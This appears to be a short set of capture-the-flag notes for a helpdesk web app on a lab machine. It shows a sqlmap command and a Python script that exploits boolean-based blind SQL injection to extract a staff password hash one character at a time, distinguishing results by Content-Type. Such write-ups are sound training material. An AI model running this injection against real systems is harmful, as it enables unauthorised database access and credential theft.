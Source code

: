 Got 
![[Pasted image 20250426205244.png]]

Looks like boolean based SQLi.

Copy this request to a file called helpdesk.req

Run #sqlmap

```
sqlmap -r helpdesk.req --batch
```

![[Pasted image 20250426205451.png]]

Creating sql.py script to "manually" abuse these parameters

```
import requests

def blindInject(query):
	url = f"http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=7 {query}"
	cookies = {'PHPSESSID': 'esdkjshdfkjhksh', 'userhash': 'ssjglkhdhkfdhfhhdhGJFDSFAFshhk=='}
	response = requests.get(url, cookies=cookies)
	rContentType = response.headers["Content-Type"]
	if rContentType == 'image/png':
		return True
	else:
		return False

keyspace = 'abcdef0123456789' #hex characters
for i in range(0,40): #sha1 sum
	for c in keyspace:
		inject = f"and substr((select password from staff limit 0,1), {i}, 1) = '{c}'"
		if blindInject(inject):
			print(c, end = '', flush=True)

if blindInject("and 1=1"):
	print("WOOT")
```

![[Pasted image 20250426211147.png]]

Need to identify what to flag on:

![[Pasted image 20250426205810.png]]
- 200 OK
- Content-Length is 1110
- Content-Type is either **text/html** or image/png

We want to flag on Content-Type

Need to also grab the cookie from Burp 
